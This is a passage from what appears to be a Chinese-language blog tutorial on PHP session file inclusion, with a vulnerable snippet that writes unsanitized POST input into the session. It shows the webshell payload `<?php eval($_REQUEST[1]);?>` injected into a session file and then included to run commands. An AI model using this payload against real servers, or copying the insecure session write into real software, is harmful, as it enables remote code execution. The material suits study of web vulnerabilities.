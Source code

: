 ```php
<?php
    session_start();
    $username=$_POST['username'];
    $_SESSION["username"] = $username;
?>
```

然后我们通过session传递参数



<img src="https://i-blog.csdnimg.cn/blog_migrate/469b8684ae0cd3c661a5276ddc0a4b91.png" alt="" style="max-height:824px; box-sizing:content-box;" />


获取session值 这个时候我们就相当于知道了 session文件的文件名

```cobol
sess_4794cc8f9f63ed29d97daf155ee94ef2
```

其次我们通过文件包含读取这个文件看看

我这里是

```cobol
C:\Users\Administrator\AppData\Local\Temp\sess_4794cc8f9f63ed29d97daf155ee94ef2
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/86a71fa67d0f21a4b6a9a89799db20c8.png" alt="" style="max-height:225px; box-sizing:content-box;" />


成功读取了

但是我们换一种思路 我们通过写入木马呢

```php
username=<?php eval($_REQUEST[1]);?>
```

然后去查看sess文件



<img src="https://i-blog.csdnimg.cn/blog_migrate/b197c316b4219f0ea3cb0ad40b9cfb36.png" alt="" style="max-height:763px; box-sizing:content-box;" />


可以发现命令执行成功

#### serialize_handler = serialize_php

一样我们通过payload执行传递一句话

```php
username=<?php eval($_REQUEST[1]);?>
```

然后去包含文件看看  这里和上面我的路径不一样 是因为上面是vs的 下面是小皮开的



<img src="https://i-blog.csdnimg.cn/blog_migrate/ce3fff32efbfcb6ec7079a38de2e63f2.png" alt="" style="max-height:260px; box-sizing:content-box;" />
